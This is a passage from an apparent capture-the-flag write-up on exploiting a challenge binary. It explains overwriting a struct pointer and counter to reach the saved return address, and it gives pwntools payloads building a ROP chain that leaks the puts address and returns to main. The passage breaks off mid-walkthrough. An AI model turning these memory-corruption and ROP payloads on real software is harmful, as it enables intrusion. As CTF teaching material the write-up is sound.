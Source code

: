 The number `0x3232323232323232` highlighted in yellow is the pointer `struct_2` and the number `0x90` highlighted in yellow is the var `count`. The address `0x0000555555555a72` highlighted in green is the saved rip. If we overwrite the `struct_2` to global list and `count` to 0x60, we can make the program write again those chunk 0x30, 0x31 and 0x32 at the position as the blue note point to.

We can also see that our buffer of payload

```python
payload = b'0000' + b'htb\x00' + b'5'*0x30
```

is right down so if we craft a pop rdi, puts and several pops in payload 0x32, we can jump to 0x35 and excute more. The reason why I need to jump to the payload of 0x35 is because we can change payload at 0x35, while payload at 0x32 seems fixed and unchangable when we jump to main again.

So we will craft payload for 0x30 first:

```python
payload = b'0001' + b'htb\x00\x00000' + p32(0x60) + b'0'*0x28
p.sendafter(b'server!\n', payload)
```

We want to change `count` from 0x90 to 0x60 so that `count` will be added with 0x30 and become 0x90 again, the same place as payload 0x30. For payload 0x31, we will keep the var `count` same as 0x90 so that it will be added with 0x30 and become 0xc0, which is saved rbp:

```python
payload = b'0001' + b'htb\x00\x00111' + p32(0x90) + b'1'*0x28
p.send(payload)
```

Now payload 0x32 is right on saved rip so let's craft a payload to leak puts address now:

```python
pop_rdi = exe.address + 0x0000000000001c0b
pop7 = exe.address + 0x1bfe
payload = b'0001' + b'htb\x00\x002222222'
payload += flat(
	pop_rdi, exe.got['puts'],
	exe.plt['puts'],
	pop7,
	p64(exe.address + 0x4080 - 0x10)    # Don't need this one, forgot to remove =)))
)
p.send(payload)
```

It will print the address of puts out and then pop 7 times to jump on payload 0x35. Because we will want to input address so the first byte of content is null byte. Hence, we can not use the first 8 byte of content, our actual payload will start from the second 8 byte and we want the program jump back to main:

```python
payload = b'0000' + b'htb\0' + b'\x003333333' + p64(exe.address + 0x1AC1)
p.send(payload)
```

Analyze stack to have a clear view:
